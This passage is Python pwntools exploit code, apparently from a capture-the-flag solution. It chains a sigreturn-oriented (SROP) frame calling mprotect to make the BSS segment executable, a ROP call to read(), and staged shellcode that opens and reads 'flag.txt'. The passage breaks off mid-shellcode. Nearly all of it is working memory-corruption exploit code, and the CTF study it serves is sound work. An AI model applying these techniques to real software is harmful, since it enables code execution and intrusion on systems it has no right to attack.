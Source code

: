 ```python
time.sleep(0.5)

syscall_ret = 0x500004      # syscall; ret address from our shellcode
bss = elf.bss()

# Give rwx permissions to the BSS segment
frame = SigreturnFrame()
frame.rip = syscall_ret
frame.rax = 0x0a            # mprotect
frame.rdi = bss - 0x10      # align to start of BSS segment
frame.rsi = 0x1000
frame.rdx = 0x1 | 0x2 | 0x4 # rwx permissions
frame.rsp = 0x400598        # pointer to bss (found using `p2p seven_patched` in pwndbg)

# ROP chain to trigger SROP
# Call read() to put 0xf (sigreturn) into rax, then syscall
payload = flat(
    p64(rop.rdi.address),
    p64(0),
    p64(rop.rsi.address),
    p64(bss),
    p64(0),
    p64(elf.plt['read']),   # read second shellcode and set rax
    p64(syscall_ret),       # sigreturn syscall
    bytes(frame),
)
p.send(payload)
time.sleep(0.5)

# Second (shorter) set of shellcode (limited to 0xf bytes) which is put into BSS for later
shellcode = asm(f'''
    xor eax, eax
    xor edi, edi
    mov esi, {bss}
    add rdx, 127
    syscall
''')
# 127 is the max length we can have while remaining 0xf bytes long
print('Length of shellcode 2:', len(shellcode))
p.send(shellcode.ljust(0xf, b'\x00')) # send exactly 0xf bytes to set rax for SROP syscall
time.sleep(0.5)

# Third (longer) set of shellcode in BSS (max length 127)
shellcode = asm(f'''
    // make rsp valid again
    mov rsp, {bss+0x190}
    
    // open
    mov rax, 2
    mov rdi, {int.from_bytes(b'flag.txt', 'little')}
    push rdi
    mov DWORD PTR [rsp+8], 0
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall

    // read
    mov rdi, rax
    xor rax, rax
    mov rsi, rsp
    mov rdx, 0x100
    syscall
```